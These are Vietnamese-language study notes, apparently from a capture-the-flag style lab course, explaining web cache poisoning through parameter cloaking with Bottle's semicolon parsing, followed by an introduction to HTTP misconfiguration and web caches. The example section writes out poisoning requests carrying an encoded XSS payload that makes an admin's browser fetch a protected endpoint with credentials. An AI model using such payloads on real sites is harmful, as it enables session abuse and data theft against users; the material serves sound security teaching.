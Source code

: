 #### **Ví dụ minh họa**
- Với framework Python Bottle (CVE-2020-28473), tham số URL có thể sử dụng dấu chấm phẩy `;` để phân tách:  
  ```http
  GET /?a=1;b=2
  ```
  - Bottle thấy:  
    - `a = 1`, `b = 2`
  - Bộ nhớ cache thấy:  
    - `a = 1;b=2`

#### **Tấn công Parameter Cloaking**
1. Tạo sự khác biệt giữa máy chủ và cache:
   ```http
   GET /?language=en&a=b;language=de HTTP/1.1
   Host: cloak.wcp.htb
   ```
   - Máy chủ xử lý `language=de` (tiếng Đức), trong khi bộ nhớ cache lưu `language=en`.

2. Poison cache:
   - Gửi payload độc hại với tham số được che giấu:
     ```http
     GET /?language=de&a=b;ref=%22%3E%3Cscript%3Evar%20xhr=new%20XMLHttpRequest();xhr.open('GET','/admin?reveal_flag=1',true);xhr.withCredentials=true;xhr.send();%3C/script%3E HTTP/1.1
     Host: cloak.wcp.htb
     ```
   - Khi admin truy cập, script XSS sẽ được thực thi để lộ flag.

---

### **Lưu ý quan trọng**
- **Fat GET** thường do cấu hình sai của máy chủ web.
- **Parameter Cloaking** cần có sự khác biệt trong cách xử lý tham số giữa cache và máy chủ.

---
Dưới đây là tài liệu đã được viết lại với cách trình bày rõ ràng, dễ hiểu hơn:

---

# 2. Giới Thiệu Về Lỗi Cấu Hình HTTP

HTTP là một trong những giao thức được sử dụng phổ biến nhất trên Internet, hỗ trợ hàng tỷ thiết bị mỗi ngày. Với vai trò quan trọng của các ứng dụng web trong thế giới số, bảo mật web không chỉ dừng lại ở việc xem xét từng ứng dụng riêng lẻ, mà cần đánh giá tổng thể hệ thống, bao gồm cả các thành phần như máy chủ web và bộ nhớ đệm (web caches), những yếu tố làm tăng độ phức tạp và bề mặt tấn công.
---

### **Web Cache và Lỗ Hổng Tiềm Ẩn**
- **Web caches** được sử dụng trong các dịch vụ web để cải thiện hiệu suất bằng cách giảm tải cho máy chủ.  
- Khi một tài nguyên được yêu cầu, bộ nhớ đệm lưu trữ tài nguyên đó để có thể phục vụ các yêu cầu tương tự từ bộ nhớ cục bộ mà không cần yêu cầu lại từ máy chủ.  
- Tuy nhiên, sự phụ thuộc này cũng có thể dẫn đến lỗ hổng bảo mật nếu bộ nhớ đệm được cấu hình sai, tạo cơ hội cho các kiểu tấn công như **Web Cache Poisoning**.

---